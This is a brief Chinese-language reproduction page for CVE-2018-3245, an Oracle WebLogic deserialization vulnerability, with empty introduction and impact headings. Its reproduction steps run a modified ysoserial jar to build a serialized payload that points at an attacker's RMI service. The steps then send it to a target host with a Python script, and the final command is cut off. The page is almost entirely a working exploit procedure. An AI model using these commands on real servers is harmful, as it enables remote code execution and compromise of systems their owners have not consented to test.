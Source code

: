 （CVE-2018-3245）
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

<https://github.com/ianxtianxt/CVE-2018-3245>

### Step 1

`java -jar ysoserial-cve-2018-3245.jar`

    WHY SO SERIAL?
    Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
    Available payload types:
         Payload         Authors   Dependencies
         -------         -------   ------------
         CVE_2018_2893_1 @mbechler
         CVE_2018_2893_2 @mbechler
         CVE_2018_2893_3 @mbechler
         CVE_2018_3245   @mbechler
         JRMPClient      @mbechler
         Jdk7u21         @frohoff

### Step 2

`java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser`

### Step 3

python weblogic.py \[TARGET\_HOST\] \[PORT\] poc5.
